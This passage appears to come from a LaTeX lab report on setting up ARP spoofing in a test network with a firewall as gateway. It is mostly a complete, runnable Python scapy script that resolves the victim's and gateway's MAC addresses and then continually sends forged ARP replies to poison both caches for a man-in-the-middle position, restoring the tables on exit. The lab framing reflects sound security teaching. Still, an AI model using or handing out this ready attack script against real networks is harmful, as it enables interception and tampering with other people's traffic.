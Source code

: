 \newpage

\subsection{Setting up ARP Spoofing}

First of all we need to write our python script to make use of scapy.

The idea is to forge a malign  packet where we tell that the gateway's  address corresponds the attacker machine and from the gateway (the firewall in this case) point of view the victim is replaced by the attacker instead.

Before doing that we also need the gateway and victim's  address, so we'll send a broadcast  request for both the victim and gateway.

\begin{lstlisting}[language=python]{}
from scapy.all import *
import argparse
import time

# Get arguments from command line
parser = argparse.ArgumentParser()
parser.add_argument("--victim", dest="victim", help="Victim's IP Address")
parser.add_argument("--gateway", dest="gateway", help="Gateway's IP Address")
options = parser.parse_args()
victim = options.victim
gateway = options.gateway
# Get mac address of the victim and gateway
# Request victim's mac by sending a Broadcast ARP request
print("Victim's IP:\t", victim)
print("Gateways's IP:\t", gateway)
rqst = ARP(pdst=victim)
victim_mac = srp((Ether(dst="ff:ff:ff:ff:ff:ff")/rqst), timeout=1, verbose=True)[0][0][1].hwsrc
# Request gateway's mac by sending a Broadcast ARP request
rqst = ARP(pdst=gateway)
gateway_mac = srp((Ether(dst="ff:ff:ff:ff:ff:ff")/rqst), timeout=1, verbose=True)[0][0][1].hwsrc
print("Victim's mac:\t", victim_mac)
print("Gateway's mac:\t", gateway_mac)


print("-----ARP Spoofing------")
try:
    while True:
        #Sends a packet to the victim that fakes being the gateway
        #But the mac address comes from this machine
        packet = ARP(op=2,pdst=victim, hwdst=victim_mac, psrc=gateway)
        send(packet, count=4, verbose=True)
        #The same but this time we fake being the victim
        packet = ARP(op=2,pdst=gateway, hwdst=gateway_mac, psrc=victim)
        send(packet, count=4, verbose=True)
        time.sleep(1)
except KeyboardInterrupt:
    # When the program is interrupted we restore the ARP table by
    # sending correct ARP packets by specifying the mac address
    print("Restoring ARP tables")
    packet = ARP(op=2,pdst=victim, hwdst=victim_mac, psrc=gateway, hwsrc=gateway_mac)
    send(packet, count=4, verbose=True)
    packet = ARP(op=2,pdst=gateway, hwdst=gateway_mac, psrc=victim, hwsrc=victim_mac)
    send(packet, count=4, verbose=True)
    print("Done")
\end{lstlisting}

